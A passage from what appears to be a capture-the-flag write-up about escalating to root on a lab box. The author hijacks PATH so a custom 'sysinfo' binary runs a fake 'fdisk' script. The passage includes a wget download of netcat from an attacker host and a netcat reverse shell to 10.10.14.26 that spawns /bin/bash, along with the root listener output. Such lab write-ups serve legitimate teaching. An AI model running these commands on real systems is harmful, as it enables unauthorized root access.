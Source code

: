 We also spawn a tty shell as using the binary `su` needs a proper terminal so we can go ahead and read the flag.

After some enum we find a binary called sysinfo which is infact a custom built bianry.

we will use the $PATH environment variable in conjunction with a bash script and sysinfo.

Here is the basic login of our attack:

We will set the `$PATH` as `/tmp` where our file will be located. This will make sysinfo use fdisk so that we can create a custom script which will run containing a netcat command that we will place inside to try and get our reverse shell as root.


```bash
theseus@ubuntu:~$ wget http://10.10.14.26:8000/nc                                                      
wget http://10.10.14.26:8000/nc                                                                        
--2020-08-21 10:31:03--  http://10.10.14.26:8000/nc                                                    
Connecting to 10.10.14.26:8000... connected.                                                           
HTTP request sent, awaiting response... 200 OK                                                         
Length: 35520 (35K) [application/octet-stream]                                                         
Saving to: ‘nc’                                                                                        
                                                                                                       
nc                  100%[===================>]  34.69K  --.-KB/s    in 0.03s                           
                                                                                                       
2020-08-21 10:31:03 (1.07 MB/s) - ‘nc’ saved [35520/35520] 
```
We transfer `nc` to the magic box.

We then echo our nc connection shell to our file

```bash
theseus@ubuntu:/tmp$ echo "/tmp/nc -e /bin/bash 10.10.14.26 1234" >> fdisk
echo "/tmp/nc -e /bin/bash 10.10.14.26 1234" >> fdisk
```

Then `chmod +x fdisk`

Do this also for `nc` 
```
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
```
Then make sure that you run `chmod 755` on `fdisk` and run `sysinfo`


Then we get a connection back on our listener as root!
```
┌──(kali㉿kali)-[~/tools]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.185] 38872
id && hostname
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
ubuntu
```

Thanks for reading hope that you enjoyed! If it was worth the read please go and support me on buymeacoffee it would mean so much if you do!

